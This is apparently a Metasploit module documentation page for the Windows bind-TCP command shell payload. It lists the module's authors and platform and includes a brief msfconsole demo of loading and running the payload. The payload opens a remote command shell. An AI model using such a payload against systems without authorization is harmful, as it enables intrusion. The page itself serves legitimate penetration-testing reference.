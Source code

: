 ## Windows Command Shell, Bind TCP Inline

Listen for a connection and spawn a command shell


## Module Name
payload/windows/shell_bind_tcp

## Authors
* vlad902
* sf





## Platforms
win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/shell_bind_tcp
msf payload(shell_bind_tcp) > show targets
   ... a list of targets ...
msf payload(shell_bind_tcp) > set TARGET <target-id>
msf payload(shell_bind_tcp) > show options
   ... show and set options ...
msf payload(shell_bind_tcp) > run
```
    
    